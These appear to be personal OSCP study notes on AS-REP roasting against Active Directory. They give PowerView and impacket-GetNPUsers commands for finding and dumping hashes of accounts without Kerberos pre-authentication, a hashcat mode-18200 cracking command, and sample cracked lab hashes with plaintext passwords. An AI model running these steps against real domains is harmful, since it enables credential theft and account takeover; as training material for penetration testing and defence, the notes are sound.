 ```yaml
---
aliases:
  - Active Directory Password Attacks - AS-REP roasting
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - active_directory
  - ad
  - adds
  - password_attack
  - as_rep_roasting
  - asrep_roasting
author: Mehdi N Tehrani
creat_date: 2024-01-07
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Kerberos Pre-authentication
#kerberos #preauth #pre_auth
`AS-REP` contains `TGT ticket` and `Session Key`
- [Microsoft Article](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx)
If Kerberos pre-authentication in not implemented, AS-REP Roasting attack would be possible. Attacker can send an `AS-REQ` on-behalf of any domain user.

## Targeted AS-REP Roasting
#targeted_asrep_roasting #targeted 
- [AD Rights](https://adsecurity.org/?p=3658)
- [StealthBits](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

Targeting a certain use we have enough privileges to

If we have _GenericWrite_ or _GenericAll_ permissions on an AD account, we can use these permissions to modify the **User Account Control** value of the user to not require Kerberos preauthentication. We can then obatin the hash and set UAC setting back to normal.


# Identify
#powerview #get_domainuser
```powershell
Get-DomainUser -PreauthNotRequired
```
#impacket #get_np_users 
Get No Preauth Users:
```sh
impacket-GetNPUsers -dc-ip $dc_ip $domain/$user
```

# Attack

## Requirements


## Tools
### impacket
#impacket #get_np_users
```sh
impacket-GetNPUsers -dc-ip $dc_ip -request -outputfile $outfile $domain/$user
```

# Decrypt
### Hashcat
#hashcat 
```
hashcat --help | rg -Pie 'as-rep'
  18200 | Kerberos 5, etype 23, AS-REP 
```

```sh
hashcat -m 18200 $hashes_file $wordlsit -r $rules
```

Example
```sh
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
Output:
```
$krb5asrep$23$dave@CORP.COM:bc070af78b7c91a537ff84f80304cde4$b99905d15618c72be3a5694178a7dc9b471f305b8726028703727252559e51c98682369c19b80ffba431c5bf768b923c88fb3f74355762a2724417e684ade14691653c9ab6f359311877501efb439848bbcd74858cbc212889cff9fae880ecf1fbdc83ccf765269ca776dc9a1c1e50376f8e0bc1eaca3c32ef17ff8431531d518659b60c26fb09fb5280bff92bfa5182aed11384ca427d7f8cd73dd5c91e10969b49aac8ac141b1aa25cf28c2a22188a384df68249915b0a24819bd7ebef2d464f4f2ca5d02a08c33a8b6c96d392fe379355fb24bd7dd30d1d7abbcb9719a27384879391:Flowers1
$krb5asrep$23$jen@CORP.COM:7bec36be71a2d3ddc57afe16dd2bee10$245e39fdeeb241624bbb84662d840c9e5954d66f752fa1138d28e720c17d0bc33f035d0dec69c3526d49a025a5998ae425df91e1b3c507f684d4ed4ff833d7f805cf1a8db1d9551541b8e1dfebd2fe892f7abbc79f3723bc1082f1602bf34379fb8d8e8c8b4d5b4fb23a0f30a04e8bf9bdeec84103580e8b68b0697a756c242445a73989287e7973e2f2e7beb6190dcc5eedf8b4bcf8d5bc9d68f0c58839c623f2243ec22cd61439d908338b9cc5e7dec7dec3d1098a8a17d9e1ea91740a6ecd3d7f98477ceff63c12c6ce656cccb6246e58fbad78f696886c2d93ce413d29dfaa31bd78:Summerland1
```



